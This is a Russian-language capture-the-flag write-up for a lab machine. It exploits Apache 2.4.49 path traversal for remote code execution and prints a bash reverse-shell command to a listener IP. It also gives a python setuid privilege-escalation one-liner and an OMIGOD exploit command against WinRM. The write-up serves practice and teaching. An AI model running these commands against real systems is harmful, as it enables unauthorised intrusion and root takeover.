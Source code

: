 # OhMyWebServer WriteUp (Medium)✅

Перейдя по ip адресу мы попадаем на страницу какого-то сайта, связаного с консалтинговыми услугами

<figure><img src="../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

Просканировав порты, мы модем узнать что на 80 порте находится **Apache-HTTP сервер**, при чем версия Apache - **2.4.49**

<figure><img src="../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Зайдя на сайт exploit-db.com и прогуглив данную версию ПО Apache, мы можем найти эксплойт, с помощью которого сможем удаленно выполнять код

<figure><img src="../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

Скачиваем данный экспойт и тестируем его работу

<figure><img src="../.gitbook/assets/image (26) (1).png" alt=""><figcaption><p>Перед использованием скрипта я создал текстовый файл <strong>ip.txt</strong>, куда вписал ip адрес машины 📌</p></figcaption></figure>

Если мы можем с помощью данного эксплойта выполнять какие-либо команды, то, следовательно, вместо команды ls можно вписать bash\_reverse\_shell и получить оболочку нашей машины

Подключив слушатель заранее, выполняем команду

`./50383.sh ip.txt /bin/sh 'bash -c "bash -i >& /dev/tcp/10.17.5.130/5555 0>&1"'`

и получаем шелл от лица пользователя **daemon**

<figure><img src="../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (4) (4).png" alt=""><figcaption><p>Судя по странному набору букв и цифр после имени пользователя, мы находимся в докере 📌</p></figcaption></figure>

<figure><img src="../.gitbook/assets/image (8).png" alt=""><figcaption><p>linpeas это подтвердил 📌</p></figcaption></figure>

Первый флаг, вероятнее всего, находится в папке root, но мы не имеем прав, чтобы в неё перейти, поэтому придётся выполнять эскалацию привилегий и получать **root**'a

C помощью linpeas'a мы узнаём, что можем проэксплуатировать **python capabilities**, с помощью команды `python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'` получаем **root**'a в докере&#x20;

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

Остаётся лишь вывести содержимое файла user.txt и получить первый флаг🚩

<figure><img src="../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

Ничего, кроме внутреннего ip-адреса linpeas не нашёл, поэтому загружаем сканер nmap и сканируем порты (сканировать мы будем ip 172.12.0.1, т.к. 0.2 - это наш адрес, а предыдущий - хоста)

<figure><img src="../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Видим открытый 5986-й порт, который относится к **Windows Remote Management**

Данный сервис имеет уязвимость, которую мы можем проэксплуатировать с помощью **omigod**-экспойта

Создаём **.py** файл, куда копируем скрипт и так же загружаем на машину

Далее вводим команду `python3 file_name.py -t 172.17.0.1 -p 5986 -c "cat /root/root.txt"` и получаем второй флаг🚩

<figure><img src="../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>
